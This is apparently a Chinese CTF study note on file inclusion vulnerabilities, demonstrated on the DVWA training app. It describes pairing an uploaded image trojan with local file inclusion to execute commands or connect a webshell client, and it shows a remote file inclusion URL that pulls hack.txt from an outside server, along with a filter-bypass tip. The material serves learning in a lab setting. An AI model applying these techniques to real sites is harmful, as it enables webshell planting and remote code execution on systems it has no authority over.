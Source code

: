 ```yaml
---
title: 文件包含漏洞
date: 2024-10-14 14:25:30
tags: CTF
categories: CTF-Web
---
```


**渗透思路**
**有时候当我们发现了一个本地的文件包含漏洞，但我们也仅仅只能去读取一些本地的文件，没有办法去进行更深层次的利用，然后又在这个网站上发现了一个文件上传漏洞，同时这个文件上传漏洞如果单个来看是比较鸡肋的，比如它做了限制，只能发送图片，而这个图片却没有做严格的限制，我们可以通过一些图片木马来绕过上传，而这两个漏洞结合一下的话，就能达到很大效果了 比如我们上传了一个图片木马，没法单独去使用，但我们可以使用文件包含漏洞，去对这个文件进行包含，也就是说两个文件互相结合进行利用**

# 本地文件包含

上传文件到本地之后，通过可以访问资源的页面访问该文件

以DVMA为例

![image-20241009203148225](././././././././././文件包含漏洞/image-20241009203148225.png)



上传图片马后将路径保存，可在文件包含中访问该马，可以进行命令执行或者蚁剑连接

![image-20241009203256567](././././././././././文件包含漏洞/image-20241009203256567.png)

# 远程文件包含

可以将文件放在服务器上，在路径后拼接服务器网址即可访问服务器上的资源

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://192.168.126.129/hack.txt
```

有的会对http://和https://进行过滤，可以使用复写绕过



访问txt文件可以，尝试访问马